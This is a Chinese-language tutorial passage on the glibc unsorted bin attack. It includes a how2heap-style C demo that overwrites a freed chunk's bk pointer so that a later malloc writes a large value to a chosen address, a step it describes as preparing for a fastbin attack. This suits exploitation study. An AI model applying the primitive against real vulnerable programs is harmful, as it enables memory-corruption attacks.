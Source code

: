  ![image-20211226161431796](/images/heap/image-20211226161431796.png)

## unsorted_bin_attack

​    unsorted bin攻击通常是为更进一步的攻击做准备的，我们知道unsorted bin是一个双向链表，在分配时会通过unlink操作将chunk从链表中移除，所以如果能够控制unsorted bin chunk的bk指针，就可以向任意位置写入一个指针。

  源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 
 int main(){
 
     fprintf(stderr, "unsorted bin attack 实现了把一个超级大的数（unsorted bin 的地址）写到一个地方\n");
     fprintf(stderr, "实际上这种攻击方法常常用来修改 global_max_fast 来为进一步的 fastbin attack 做准备\n\n");
 
     unsigned long stack_var=0;
     fprintf(stderr, "我们准备把这个地方 %p 的值 %ld 更改为一个很大的数\n\n", &stack_var, stack_var);
 
     unsigned long *p=malloc(0x410);
     fprintf(stderr, "一开始先申请一个比较正常的 chunk: %p\n",p);
     fprintf(stderr, "再分配一个避免与 top chunk 合并\n\n");
     malloc(500);
 
     free(p);
     fprintf(stderr, "当我们释放掉第一个 chunk 之后他会被放到 unsorted bin 中，同时它的 bk 指针为 %p\n",(void*)p[1]);
 
     p[1]=(unsigned long)(&stack_var-2);
     fprintf(stderr, "现在假设有个漏洞，可以让我们修改 free 了的 chunk 的 bk 指针\n");
     fprintf(stderr, "我们把目标地址（想要改为超大值的那个地方）减去 0x10 写到 bk 指针:%p\n\n",(void*)p[1]);
 
     malloc(0x410);
     fprintf(stderr, "再去 malloc 的时候可以发现那里的值已经改变为 unsorted bin 的地址\n");
     fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
 }
 ```
